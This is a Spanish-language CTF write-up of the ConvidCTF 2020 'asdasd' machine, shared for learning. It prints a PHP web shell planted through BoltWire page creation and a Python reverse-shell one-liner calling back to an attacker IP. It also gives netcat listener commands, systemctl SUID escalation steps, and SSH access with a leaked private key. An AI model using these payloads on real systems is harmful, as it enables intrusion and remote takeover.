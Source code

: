### ConvidCTF 2020 - asdasd - Máquinas Writeup

Buenas a todos, hoy les traigo un writeup de uno los retos de la categoría de la categoría "Máquinas",
el nombre del reto era **asdasd**, este reto tenía dos flags, la primera de estas (user.txt) de 500 puntos
y la segunda (root.txt) 300 puntos.

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/1.png)

Para comenzar este reto me dirigí directamente al puerto 80 de esta máquina utilizando mi navegador, 
allí me esperaba la página incial del CMS **BoltWire**

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/2.png)

Lo que primero llamó mi atención fue la palabra **ADMIN** en el menú horizontal de la página, por lo cual decidí
tratar de acceder allí, al hacerlo me encontré con el siguiente mensaje

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/3.png)

Tras ese intento fallido de enumerar de manera rápida las funcionalidades del sitio web, decidí crear una cuenta en éste,
asi que hice click en el submenu **register** e ingrese mis futuras credenciales de acceso.

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/4.png)

Luego de registrarme exitosamente en el sitio, noté que éste me había logueado 
automáticamente por lo que contaba con una sesión activa

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/5.png)

Asi que nuevamente quize ingresar al panel de **ADMIN** y pum!, **Access Blocked**.. raios :c

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/6.png)

Para expandir mi *Attack Surface* fui a la páguina oficial del CMS **BoltWire** y me descargué su versión clásica

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/7.png)

Anteriormente me habia fijado en el parametro **p** el cual cambiaba según la página en que estaba navegando

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/8.png)

Cuando la descarga del CMS finalizó, encontré dentro de una de las carpetas que existia un archivo llamdo register,
tal cual como el nombre del parametro **p** mencionado anteriormente

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/9.png)

Y más arriba existía uno que me llamo la atención **action.create**, quizas podría subir archivos,
quizas podria crear un usuario con permisos de adminstracion, **quizas podria crear archivos**...

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/10.png)

Al cambiar el valor del parametro **p** por **action.create**, se me desplezo un formulario
que indicaba que podia crear una página. Dado esto decidí crear una de prueba y de regalo un trozito de código PHP
que me permitiría posiblemente ejecutar comandos de sistema bajo el contexto de la página

```
Hola<?php passthru($_GET["cmd"]); ?>
```

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/12.png)

Luego de guardar esta nueva página fui redirigido a esta misma pero para mi mala suerte,
el contenido no fue interpretado por el motor de PHP

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/13.png)

Por la ct.... no se ejecutó el pinche código asi que me puse a enumerar los directorios con 
[ffuf](https://github.com/ffuf/ffuf/) y encontré **pages**

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/14.png)

Me fui de cabeza a ese directorio y encontré la página que recién había creado, además de otras que me llamaron la atención.. pero no tanto

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/15.png)

Nuevamente fui a mi página recien creada y puuum!, nada, otra vez no fue interpretado mi código, 
peroooo .... y si le agrego la extension **.php**

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/16.png)

Eso!.. me fui a crear otra página, pero esta vez el nombre de la página sería **test.php**

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/17.png)

Otra vez luego de guardarla, nada, el código no era interpretado

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/18.png)

perooooooooooooooo acá en la carpeta **pages**, estaba mi hermosa página...

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/19.png)

Tras hacerle click, nada no se renderizaba nada, asi que probablemente mi código PHP se estaba interpretando..

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/20.png)

le agregué el parámetro **0**, de valor le di un simple comando para listar directorios en Linux

```ls -la```

Y siiiiiiiiiiiiii, ajajajajajjaj... se ejecutó el pinche comando...

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/21.png)

En mi terminal levante un listener con netcat

```nc -lvnp 3000```

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/22.png)

Me fui a mirar si había alguna versión de python instalado en la máquina

```which python3```

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/23.png)


Le di con el siguiente comando para obtener una reverse shell

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/24.png)

Y pude lograr la deseada reverse shell

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/25.png)

Antes de ir por la flag de usuario quize enumerar más la maquina para poder tener mas claro,
como podría escalar privilegios y lograr ser root, me fui a la vieja y confiable.. el cheatsheet de g0tm1lk.
Tras varios copy paste llegue a la parte de los SUID

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/26.png)

Tras ejecutar el comando noté que **systemctl**, estaba con el bit de SUID, que tsutsa..

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/27.png)

Ahora en GTFOBins busqué el pinche binario y para suerte mia existia un método de escalación utilizando systemctl + SUID

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/28.png)

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/29.png)

Ya tenia mi vector para escalar privilegios, asi que me fui a sacar la flag del user

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/30.png)

Hice paso a paso, modificando un poco lo que decia en GTFOBins, cree un archivo test.service
le puse la estrucura básica de un servicio de windows...

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/31.png)

Levante nuevamente un listener en mi máquina...

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/32.png)

Hice una copia del systemctl, nose porqué, pero en GTFOBins decia que había que hacerlo... XD
Y cuando quize obtener mi reverse shell.... **Failed to link unit: Interactive authentication required**

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/33.png)

:c Que w3a... maldito www-data.. Pero filo, había un archivo que no había mirado en el home del usuario ubuntu, **secret.txt**

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/34.png)

Cuando lo miré dije, *Meh, un llave pública*...

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/35.png)

Fue en ese momento que aparecieron los cauros @h4tt0r1 y @fjv al rescate, recordaron un repósitorio de llaves privadas..
Yaaaa yyyyyyy... napo habian hartas..

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/36.png)

Pero cuando grepearon la llave pública que estaba en **secret.txt**.. ahi estaba la pinche llave privada...

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/37.png)

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/38.png)

```ssh ubuntu@10.4.4.66 -i llavectm```

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/39.png)

Luego de entrar como el usuario ubuntu, ya tenia enumerado como escalar, 
asi que nuevamente intente los pasos para crear el servicio..

```/bin/systemctl link /tmp/test.service
/bin/systemctl enable /tmp/test.service
/bin/systemctl start test.service
```

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/40.png)

Me fui corriendo a revisar mi listener y siiiiiiiiiiiii HAAHHAHAHAHAA una shell con el usuario ROOOOOOT

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/41.png)

Y eso.. fui a /root, saque la flag y 300 puntitos mas pa l@s cabr@s..

![alt text](https://github.com/pelaohxc/writeups/raw/master/asdasd/42.png)


Ese fui mi humilde writeup, espero puedan rescatar algo c:

Gracias los cabros que apañaron en el reto [@h4tt0r1](https://www.cntr0llz.com/users/h4tt0r1) y [@fjv](https://www.cntr0llz.com/users/fjv)

Y un saludo a mi awelita que no la veo hace rato por el pinche virus.. :c

[@xpl0ited1](https://www.cntr0llz.com/users/xpl0ited1)
